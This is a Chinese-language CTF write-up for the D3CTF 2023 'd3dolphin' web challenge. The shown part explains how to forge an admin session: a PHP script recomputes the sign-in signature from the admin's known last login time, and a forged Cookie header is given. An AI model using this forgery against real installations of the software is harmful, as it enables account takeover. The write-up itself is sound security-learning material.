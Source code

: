 ```yaml
---
layout: post
title: d3ctf2023-d3dolphin
date: 2023-05-07 16:51 +0800
categories: [ctf, web]
tag: [web, php, lfi]
---
```


## 题目简介
* 给了admin最后一次登陆时间
* 密码不是弱口令，不是默认密码
* 要求rce并bypass disable function


## 伪造管理员
搜索login、time等字眼 按照如下方式伪造
last_login_time搜一下是个unix时间戳，找个在线网站转换一下

```php
<?php
function data_auth_sign($data = []){
    // 数据类型检测
    if(!is_array($data)){
        $data = (array)$data;
    }

    // 排序
    ksort($data);
    var_dump($data);
    // url编码并生成query字符串
    $code = http_build_query($data);
    // 生成签名
    var_dump($code);
    $sign = sha1($code);
    return $sign;
}
$user = array(
    'username'=> 'admin',
    'id'=>'1',
    'last_login_time1'=>'2011-04-05 14:19:19',
    'last_login_time'=>'1301984359'
);
var_dump(data_auth_sign($user['username'].$user['id'].$user['last_login_time']));
```

`config/cookie.php`里写了cookie的前缀

```
Cookie: dolphin_uid=1; dolphin_signin_token=ab5f486a24426d9158c99507da45ae3bac476dd6
```
